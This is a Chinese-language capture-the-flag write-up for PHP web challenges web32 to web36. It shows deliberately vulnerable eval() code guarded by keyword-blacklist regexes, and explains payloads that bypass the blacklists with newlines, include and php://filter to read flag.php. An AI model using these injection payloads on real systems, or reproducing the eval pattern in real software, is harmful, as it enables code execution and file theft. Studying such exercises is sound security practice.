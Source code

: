 本题上升了些难度,反引号,分号,括号都被过滤了

参考了WP,得到payload,既然是参考,就要理解透彻为什么可以这样做

```
c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

preg_match是单行匹配,可以使用%0a换行符绕过,include后面如果跟的如果是变量,不需要加括号,GET里面的key为数字时,可以不用加引号,语句后面立马跟上变量1的值

php中可以把`?>`当做一次性的`;`来使用

### web33

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

本题双引号单引号都被过滤了

可以使用和上一题相同的做法来做

查看hint后,

```php
c=?><?=include$_GET[1]?>&1=php://filter/read=convert.base64-
encode/resource=flag.php
```

对开头使用`c=?><?=include$_GET[1]?>`有点疑惑

经过试验,发现`?><?`这个东西居然不影响正常语句的执行

![image-20220121174741643](https://gitee.com/blue_satchel/images/raw/master/image-20220121174741643.png)

echo成功输出1

### web34

和32 33同理

### web35

和32同理

### web36

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
```
